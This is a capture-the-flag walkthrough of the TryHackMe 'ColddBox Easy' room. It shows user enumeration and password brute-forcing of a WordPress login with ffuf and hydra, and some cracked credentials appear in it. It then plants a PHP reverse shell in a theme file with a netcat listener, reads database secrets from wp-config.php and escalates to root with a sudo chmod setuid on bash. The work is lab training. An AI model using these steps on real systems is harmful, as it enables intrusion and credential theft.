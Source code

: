 ```http
https://tryhackme.com/room/colddboxeasy
```

```ip
10.10.145.74
```
___
# Recon
## Nmap
```bash
sudo nmap -p- -sC -sV -T5 -Pn 10.10.145.74 -vv
```

```resoults
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: WordPress 4.1.31
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: ColddBox | One more machine
4512/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Web
### Endpoints
```http
http://10.10.145.74/?feed=comments-rss2
http://10.10.145.74/?p=1#comments
http://10.10.145.74/wp-login.php
```

### WPscan
```bash
wpscan --url http://10.10.145.74/
```

```resoults
Server: Apache/2.4.18 (Ubuntu)
WordPress version 4.1.31 identified
WordPress theme in use: twentyfifteen
```
___
### Check users wordpress
```bash
ffuf -u "http://10.10.145.74/wp-login.php" -X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-H "Cookie: wordpress_test_cookie=WP+Cookie+check" \
-d "log=FUZZ&pwd=invalidpassword&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1" \
-w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -mc all -fs 3408
```

```resoult
philip
hugo
*****
```

### Bruteforse password's
```bash
ffuf -u "http://10.10.145.74/wp-login.php" -X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-H "Cookie: wordpress_test_cookie=WP+Cookie+check" \
-d "log=philip&pwd=FUZZ&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1" \
-w /usr/share/wordlists/rockyou.txt -mc 200,302 -fs 3455
```

```resoults
panda
```

```bash
hydra -l hugo -P /usr/share/wordlists/rockyou.txt 10.10.145.74 http-post-form \
"/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1:F=incorrect" \
-t 64 -V -f
```

```resoults
[80][http-post-form] host: 10.10.145.74   login: hugo   password: 147852
```

```bash
ffuf -u "http://10.10.145.74/wp-login.php" -X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-H "Cookie: wordpress_test_cookie=WP+Cookie+check" \
-d "log=c0ldd&pwd=FUZZ&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1" \
-w /usr/share/wordlists/rockyou.txt -mc 200,302 -fs 3453
```

```bingo
[80][http-post-form] host: 10.10.145.74   login: *****   password: **********
```
___
# RCE
In wordpress account need add php revers shell in Appearance -> Edit Themes
I use index.php
```http
https://www.revshells.com/
```

```bash
nc -lnvp 1337
```

```http
curl http://10.10.145.74/index.php
```
___
# LPE
```bash
cat wp-config.php
```

```resoults
/** MySQL database username */
define('DB_USER', '*****');

/** MySQL database password */
define('DB_PASSWORD', '************');
```
## SSH

> [!important]
> 4512/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)

```bash
ssh *****@10.10.145.74
```

```bash
sudo -l 
```

```resoults
El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

```bash
sudo -u root /bin/chmod u+s /bin/bash
```

```bash
cat /root/root.txt
```
